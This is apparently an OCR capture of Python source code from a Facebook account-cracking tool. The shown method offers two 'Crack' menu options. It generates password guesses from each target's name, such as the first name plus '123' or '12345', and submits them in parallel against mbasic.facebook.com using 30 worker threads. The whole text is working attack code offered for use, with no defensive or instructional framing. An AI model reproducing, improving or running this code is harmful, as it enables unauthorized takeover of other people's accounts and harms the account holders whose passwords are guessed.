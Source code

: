     def __pler__(self):
        print("\033[1;91m[1] Crack With Auto Pass ")
        print("\033[1;92m[2] Crack With Name Digit Pass")
        chi = input('\n[*] Choose: ')
        if chi == '':
            print('\nSelect Correct One')
            self.__pler__()
        elif chi in ('1', '01'):
            os.system("clear")
            print(logo)
            print("\033[1;31m\r                THIS TOOL ONLY DATA USER\033[1;37m")
            print("\033[1;32m••••••••••••••••••••••••••••••••••••••••••••••••••••••••")
            print('\033[1;33m Total Auto file IDs : %s ' % len(self.id))
            print('\033[1;34m Cracking Started...')
            print("\033[1;32m••••••••••••••••••••••••••••••••••••••••••••••••••••••••")
            with sarfrazssb(max_workers=30) as ssbworld:
                for zsb in self.id: # Yo Ndak Tau Kok Tanya Saia
                    try:
                        uid, name = zsb.split('|')
                        xz = name.split(' ')
                        first, last = name.split(' ')
                        firstl = first.lower()
                        lastl = last.lower()
                        firsts = first.capitalize()
                        lasts = last.capitalize()
                        if len(xz) == 3 or len(xz) == 4 or len(xz) == 5 or len(xz) == 6:
                            pwx = [firstl+' '+lastl, xz[0]+"12345", xz[0]+"123"]
                        else:
                            pwx = [firstl+' '+lastl, xz[0]+"12345", xz[0]+"123"]
                            pwx = [firstl+' '+lastl, xz[0]+"12345", xz[0]+"123"]
                        ssbworld.submit(self.__metode__, uid, pwx, "mbasic.facebook.com")
                    except:
                        pass
            hasil(ok,cp)
        elif chi in ('2', '02'):
            os.system("clear")
            print(logo)
            print("\033[1;37m\rEnter Last Name Digits\033[1;37m\n")
            p1 = input('  Name + 1 : ')
            p2 = input('  Name + 2 : ')
            p3 = input('  Name + 3 : ')
            p4 = input('  Name + 4 : ')
            os.system("clear")
            print(logo)
            print("\033[1;31m\r                THIS TOOL ONLY DATA USER\033[1;37m")
            print("\033[1;32m••••••••••••••••••••••••••••••••••••••••••••••••••••••••")
            print('\033[1;33m Total IDs : %s ' % len(self.id))
            print('\033[1;34m Cracking Started...')
            print("\033[1;32m••••••••••••••••••••••••••••••••••••••••••••••••••••••••")
            with sarfrazssb(max_workers=30) as ssbworld:
                for zsb in self.id: # Yo Ndak Tau Kok Tanya Saia
                    try:
                        uid, name = zsb.split('|')
                        xz = name.split(' ')
                        if len(xz) == 3 or len(xz) == 4 or len(xz) == 5 or len(xz) == 6:
                            pwx = [name, xz[0]+"123", xz[0]+xz[1], xz[0]+"12345"]
                        else:
                            pwx = [name, xz[0]+"123", xz[0]+xz[1], xz[0]+"12345"]
                        ssbworld.submit(self.__metode__, uid, pwx, "mbasic.facebook.com")
                    except:
                        pass
            hasil(ok,cp)
        else:
            print('\n Select Valid One')